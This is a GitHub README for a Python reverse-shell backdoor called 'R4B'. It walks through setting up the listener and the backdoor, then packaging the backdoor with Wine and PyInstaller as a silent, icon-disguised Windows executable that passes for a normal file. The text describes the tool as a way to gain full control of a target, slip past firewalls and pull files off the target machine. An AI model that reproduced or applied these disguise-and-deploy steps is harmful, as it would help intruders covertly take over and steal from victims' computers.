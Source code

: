 # R4B
(R4B stands for Reverse Acess Backdoor)
It is a two-way python based program that can be used to gain full-control over the target. It uses a reverse connection from the target computer so that the firewall would not block it as suspicious port opening since it opens the port on the target machine itself and then sends the connection request to the attacker machine/control machine as well.
Note - Based on python 2.7 (python 3 variant in the works !)

## Getting Started

### Basic Usage
##### (Linux)
Steps to get your program running. 

1. Clone the repo via SSH or by download the repo as a ZIP file.
2. Extract the ZIP files. (For SSH users, skip to step 3).
3. Copy the listener program on your attacker or control machine and backdoor on your target machine. 
4. In the "listener.py" file, open with a text editor and set the ip ="<Control Machine IP Address">.
5. Modify the port field to your accordance, set it to a valid port number that is not blocked.
6. Make the same changes to the "backdoor.py" file on the target machine.
7. Run the program on the attacker machine on the linux terminal first as follows.
```
python listener.py
```
8. Repeat the previous step on the target machine but with the backdoor. 
```
python backdoor.py
```

The attacker machine will show a successfull connection confirmation on the terminal window. Use the terminal as if you were on your host machine (sudo access not yet added, although it's in the works).


### Advanced Usage
#### (Target Windows Machine)
The basic mode was just to explain how the reverse backdoor is working. The advanced impelementaion focuses on how to use this program as an exploit with target computers. Packaging is the technique that we will be using to package our python code as executables which will look like any normal program that we desire. It can be packaged with a .pdf, .jpeg, .exe or any other extension. We will only need to package the backdoor since the attacker is knowingly running the listener.

-> It is advised to package from the same OS that the backdoor will be running on.

Steps to package backdoor.

1. Install python for windows on your linux computer from the link below.
```
https://www.python.org/downloads/windows/
```
2(a). Install wine on your packaging machine. 
```
sudo apt-get install wine 
```
2(b). For 32-bit systems.
```
sudo apt-get install wine32
```
3. Unpackage using Wine(Wine is not an emulator). 
```
root@kali:~/Downloads# wine msiexec /i python-2.7.15.amd64.msi 
```
It will install wine on your Linux.

4. List your hidden wine directory. By doing the following command in your root/home directory.
```
ls -a
```
5. Enter your python.exe path for wine and install pyinstaller as follows.
This will install pyinstaller.exe to your Python27/Scripts folder.
```
wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller
```
6. Package the file as follows to an .exe program which runs silently on a windows machine. (Run this command from the folder of your python program.
```
wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe <program.py> --onefile --noconsole --icon <icon path without double quotes>
```
7. Run the executable from a windows target machine with the listener on your end. Voila ! You will have a connection. 


## Example
### Attacker/Control Side

![alt text](https://github.com/darksidergod/Reverse-Acess-Backdoor/blob/master/examples/Screenshot%20from%202019-01-19%2012-17-35.png)
![alt text](https://github.com/darksidergod/Reverse-Acess-Backdoor/blob/master/examples/Screenshot%20from%202019-01-19%2012-18-05.png)
![alt text](https://github.com/darksidergod/Reverse-Acess-Backdoor/blob/master/examples/Screenshot%20from%202019-01-19%2012-18-14.png)

#### Download files from target computer
![alt text](https://github.com/darksidergod/R4B/blob/master/examples/Screenshot%20from%202019-01-19%2012-20-35.png)
![alt text](https://github.com/darksidergod/R4B/blob/master/examples/Screenshot%20from%202019-01-19%2012-20-22.png)
![alt text](https://github.com/darksidergod/R4B/blob/master/examples/Screenshot%20from%202019-01-19%2012-20-30.png)

## Extending the program
This program can be extended to a very vast length. It depends on your understanding of the libraries used. Apart from using the program as an icon it can be embedded to a legit-working file like a PDF or a .jpeg file. I didn't include those programs due to their specificity of code. The uploaded code is more open and can be modified to one's need. 

## Libraries 
socket, subprocess, json, os, base64, sys, shutil  
